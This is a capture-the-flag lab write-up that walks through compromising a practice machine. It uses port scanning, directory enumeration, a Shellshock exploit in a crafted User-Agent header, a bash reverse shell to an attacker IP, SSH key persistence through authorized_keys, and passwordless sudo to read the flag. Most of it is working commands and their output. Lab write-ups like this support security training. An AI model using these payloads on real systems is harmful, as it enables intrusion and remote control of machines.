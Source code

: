 ## Web Hacking 05
> Explore and discover possible vulnerabilities of the machine to gain access and capture the Flag.
> 
> IP: 192.168.10.8

### Nmap
Since the challenge is not showing a port, we first do a port scan using nmap.

```bash
$ nmap -p- $IP

Nmap scan report for 192.168.10.8
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8110/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 46.49 seconds
```

The webserver on port 8110 requires authentication and sends a header containing the admin data.


```bash
$ curl -I http://192.168.10.8:8110
HTTP/1.1 401 Unauthorized
Date: Mon, 06 Jun 2022 19:43:42 GMT
Content-Type: text/html
Content-Length: 172
Connection: keep-alive
WWW-Authenticate: Basic realm="Registry realm"
Server: admin : PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc

$ curl http://192.168.10.8:8110 -u admin:PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc
<html>
    <head><title>Vulnerables | ShellShock</title></head>
    <style>
   	.fig {
    	text-align: center;
   	}
   	body {
  	background-color: #0a0a0a;
	}
  </style>
    <body>
    	<p class="fig"><img src="webpage-img.jpg" alt="Here's nothing. "></p>
    </body>
</html>

```

The title says `Vulnerables | ShellShock` and an image showing shellshock.
Since shellshock is a vulnerability in bash execution, we need a `/cgi-bin/` file. To find it, gobuster is used.

```bash
$ gobuster dir -u http://192.168.10.8:8110 -w /usr/share/wordlists/dirb/common.txt -U admin -P PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.8:8110
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Auth User:               admin
[+] Timeout:                 10s
===============================================================
2022/06/06 22:11:05 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 286]
/.htaccess            (Status: 403) [Size: 286]
/cgi-bin/             (Status: 403) [Size: 285]
/index.html           (Status: 200) [Size: 279]
/index                (Status: 200) [Size: 279]
/robots               (Status: 200) [Size: 202]
/robots.txt           (Status: 200) [Size: 202]
/server-status        (Status: 403) [Size: 290]
                                               
===============================================================
2022/06/06 22:12:20 Finished
===============================================================
```

The `robots.txt` shows a hint that this machine is vulnerable and contains a link to `/cgi-bin/vulnerable`.


```bash
$ curl http://$IP:$PORT/robots.txt -u $AUTH                    

/cgi-bin/vulnerable

This machine appears to be vulnerable to Shellshock, try to obtain a reverse shell.
```

Using the shellshock exploit and `id` as the command, the vulnerability can be detected.


```bash
$ curl -A "() { :;}; echo; /bin/bash -c 'id'" http://$IP:$PORT/cgi-bin/vulnerable -u $AUTH
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Reverse shell
With a reverse shell opened on the attacker machine using `nc -lvp 1337` and a bash reverse shell through the vulnerability, a shell can be obtained.

In the home folder is a script called `touchmenot.sh` which executes a bash shell as the user `joaquim`.

```bash
$ curl -A "() { :;}; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.9.2/1337 0>&1'" http://192.168.10.8:8110/cgi-bin/vulnerable -u admin:PmFKFzNUzlITtN5mEVr1n9mEx0COWRjc

www-data@01557ef5aa3b:/usr/lib/cgi-bin$ cd /home
www-data@01557ef5aa3b:/home$ ./touchmenot.sh
$ id
uid=33(www-data) gid=33(www-data) euid=1000(joaquim) egid=1000(joaquim) groups=1000(joaquim),33(www-data)

$ cd /home/joaquim

$ ls -lah
total 28K
drwxr-xr-x 1 joaquim joaquim 4.0K May 21 11:21 .
drwxr-xr-x 1 root    root    4.0K May 21 11:21 ..
-rw-r--r-- 1 joaquim joaquim  220 Sep 25  2014 .bash_logout
-rw-r--r-- 1 joaquim joaquim 3.4K Sep 25  2014 .bashrc
-rw-r--r-- 1 joaquim joaquim  675 Sep 25  2014 .profile
drwx------ 2 joaquim joaquim 4.0K May 21 11:21 .ssh
-rw------- 1 joaquim joaquim  341 May 21 11:21 ssh_config.txt

$ cat ssh_config.txt
SSH server is running on a deprecated version.

In order to establish an ssh connection, we need to use ED25519 algorithm.

Create a key with the following command and then paste it on the .ssh/authorized_keys file.

ssh-keygen -t ed25519 -C "your_email@example.com"

To access the server, execute the following command:

ssh -i key user@ip
```

In the home folder of `joaquim` there is a `ssh_config.txt` file containing information on how to create a ssh key.

```bash
$ ssh-keygen -t ed25519 -C "your_email@example.com"
$ cat key.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com
```

The key is created on the attacker machine and added to the `authorized_keys` file for the user. Now a ssh connection can be used insted of the reverse shell.

```bash
$ cd .ssh
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com" >> authorized_keys
$ cat authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINQSZDrYvsA+71Dsj52F8d5/qBsURESHx8e++XPigszh test@example.com
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJe+bjgEz9hKqWcFT6bX8bfppr1aTM5zC46oQ/M9Yzd9 your_email@example.com
```


Since the user is in the sudo group and is not requesting a password, the flag can be retrieved from the `/root/` folder.
```bash
$ ssh -i key joaquim@$IP


$ sudo ls -lah /root
total 20K
drwx------ 1 root root 4.0K May 21 11:21 .
drwxr-xr-x 1 root root 4.0K Jun  6 07:15 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  140 Nov 19  2007 .profile
-rw-rw-r-- 1 root root   28 May 21 11:14 flag.zip

$ sudo file /root/flag.zip
/root/flag.zip: ASCII text, with no line terminators

$ sudo cat /root/flag.zip 
Y3liZXJjdGZkezFfNG1fcjAwN30=

$ sudo cat /root/flag.zip | base64 -d
cyberctfd{1_4m_r007}
```

The file is base64 encoded, decoded is the searched flag.